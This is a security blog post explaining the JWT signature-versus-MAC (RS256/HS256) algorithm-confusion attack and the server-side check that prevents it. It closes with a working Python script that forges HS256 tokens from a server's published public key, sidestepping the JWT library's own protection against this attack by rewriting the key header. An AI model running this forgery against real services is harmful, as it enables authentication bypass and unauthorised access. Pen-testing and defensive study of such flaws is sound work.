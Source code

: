 ```yaml
---
layout: post
title: "JWT: Signature-vs-MAC attacks"
categories: ["security"]
date: 2019-05-16
---
```


During a recent pen-test I stumbled upon a [JSON Web Token](https://en.wikipedia.org/wiki/JSON_Web_Token)(in short: JWT) based authorization scheme. JWTs consist of three parts: header, payload and verification information. The initial header part contains the name of the algorithm that will later be used to generate the verification part of the JWT. This is dangerous as an attacker can change this information and thus (maybe) control what scheme will be used for verification by the server.

Two commonly used schemes are RS256 ([digital signature](https://en.wikipedia.org/wiki/Digital_signature)-based algorithm) and HS256 ([MAC](https://en.wikipedia.org/wiki/Message_authentication_code)-based algorithm). An insecure option would be the NULL-scheme: do not include any verification information at all --- sadly the NULL scheme was not accepted by the target web server.

There is a slight change of a "type confusion"-alike attack against JWT that can occur if the server implementation uses a JWT verification library by just calling code similar to `verify(token, key)` and assumes that only digitally-signed tokens will be used. In this case, the second parameter `key` will always be the public key that will be sued for verification (digital signatures use a private key for creating the signature, and the corresponding public key for verifying the created signature).

An attacker can now retrieve the public key, create a new MAC-based token and use the public key for creating the verification part of the newly created token. In a MAC-based scheme only a secret key is needed to create the verification information and the attacker thus uses the public key (of the digital signature) as secret key for the MAC. If this token is now passed to the `verify` operation on the server, the library would identify the to-be-used scheme from the token (which was set by the attacker to be `HS256` indicating the MAC-scheme). The verification library will then use the second parameter as input for creating the MAC. As this is the public key, the created MAC is the same as the MAC passed by the attacker, both match and the server will accept the forged token. What should have the application developer done better? If a token is accepted by the server, it must always check if the used algorithm is the same as the developer originally assumed to be used.

In theory, this should be easy to test but I didn't find any working tool for that. So I scripted it myself in python. To use it, you have to configure the following in the source code:

* `jwks_url`: where to get the public key info from. [JWKS](https://auth0.com/docs/jwks) is used to publicly distribute key information by many services.
* `operation_url`: an HTTP GET operation that users a JWT-token for authorization
* `token`: a valid JWT for the configured operation
* `audience`: the audience that the token was configured for

The script does the following:

* download a JWKS configuration file and extract the public key parameters. Create a pem-representation out of that.
* verify that the configured token can be validated with the extracted public key
* perform the configured operation with the valid token and output both the resulting HTTP status code as well as the resulting document (it is assumed that this will be a JSON document)
* create a new token based upon the configured token. In this token the token type will be changed to `HS256`; a MAC (based upon the public key) will be computed and used as verification information for the token.
* execute the configured operation again with the modified token and output the HTTP status code as well as the returning document.

As the returning status code (with the modified token) was 401 (authorization denied) the server-side authorization checks of the target web-server seem to work and it thus was not vulnerable against the signature-vs-mac confusion attack. If it would have been worked, identical HTTP status codes and similar result documents should have been produced by both HTTP calls (with the original as well as with the modified token).

Hope that helps with your pen-testing, feel free to adapt the python script:


~~~ python
import jwt
import requests

from jwcrypto import jwk
from cryptography.x509 import load_pem_x509_certificate
from cryptography.hazmat.backends import default_backend

# configuration
jwks_url = "https://localhost/oauth2/.well-known/jwks.json"
operation_url = "https://localhost/web/v1/user/andy"
audience = "https://localhost"
token = "eyJh..."

# retrieves key from jwks
def retrieve_jwks(url):
    r = requests.get(url)
    if r.status_code == 200:
        for key in r.json()['keys']:
            if key['kty'] == "RSA":
                return jwk.JWK(**key)
        print("no usable RSA key found")
    else:
        print("could not retrieve JWKS: HTTP status code " + str(r.status_code))

def extract_payload(token, public_key, audience):
    return jwt.decode(token, public_key, audience=audience, algorithms='RS256')

def retrieve_url(url, token):
    header = {'Authorization' : "Bearer " + token}
    return requests.get(url, headers=header)

# call the original operation and output it's results
original = retrieve_url(operation_url, token)
print("original: status: " + str(original.status_code) + "\nContent: " + str(original.json()))

# get key and extract the original payload (verify it during decoding to make
# sure that we have the right key, also verify the audience claim)
public_key = retrieve_jwks(jwks_url).export_to_pem()
payload = extract_payload(token, public_key, audience)
print("(verified) payload: " + str(payload))

# create a new token based upon HS256, cause the jwt library checks this
# to prevent against confusion attacks.. that we actually try to do (:
mac_key = str(public_key).replace("PUBLIC", "PRIVATE")
hs256_token = jwt.encode(payload, key=mac_key, algorithm="HS256")

# call the operation with the new token
modified = retrieve_url(operation_url, str(hs256_token))
print("modified: status: " + str(modified.status_code) + "\nContent: " + str(modified.json()))
~~~
